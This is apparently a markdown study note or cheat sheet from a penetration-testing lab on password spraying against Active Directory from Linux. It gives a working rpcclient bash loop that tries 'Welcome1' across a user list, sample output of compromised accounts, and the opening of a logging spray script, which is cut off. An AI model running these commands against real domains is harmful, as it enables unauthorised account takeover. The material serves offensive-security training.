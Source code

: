 # Internal Password Spraying - from Linux

## 📋 Overview

Password spraying is one of the most effective methods for gaining initial domain credentials in Active Directory environments. This technique involves testing a small number of common passwords against a large list of usernames, staying below account lockout thresholds while maximizing the chance of success.

## 🎯 Attack Methodology

### ⚠️ **Critical Prerequisites**
- **Password Policy Knowledge**: Essential for safe execution
- **Valid User List**: Accurate username enumeration completed
- **Lockout Threshold**: Must stay below the limit (typically 3-5 attempts)
- **Attack Timing**: Space attempts based on lockout duration

### 🔍 **Attack Flow**
1. **User List Preparation**: Clean, validated username list
2. **Password Selection**: Common, policy-compliant passwords
3. **Attack Execution**: Systematic credential testing
4. **Success Validation**: Verify discovered credentials
5. **Documentation**: Log all activities and results

---

## 🔧 rpcclient Password Spraying

### 📝 **Basic Methodology**
- **Success Indicator**: `Authority Name` in response
- **Bash One-Liner**: Efficient automation approach
- **Filtering**: Grep for successful authentications only

### 🚀 **Single Password Spray**
```bash
# Basic rpcclient password spray
for u in $(cat valid_users.txt); do 
    rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority
done
```

### 📊 **Example Successful Output**
```
Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

### 🔧 **Enhanced Script with Logging**
```bash
#!/bin/bash
# Enhanced password spraying with logging

DC_IP="172.16.5.5"
USERLIST="valid_users.txt"
PASSWORD="Welcome1"
LOGFILE="spray_results_$(date +%Y%m%d_%H%M%S).log"

echo "[$(date)] Starting password spray against $DC_IP" | tee -a $LOGFILE
echo "[$(date)] Testing password: $PASSWORD" | tee -a $LOGFILE

```
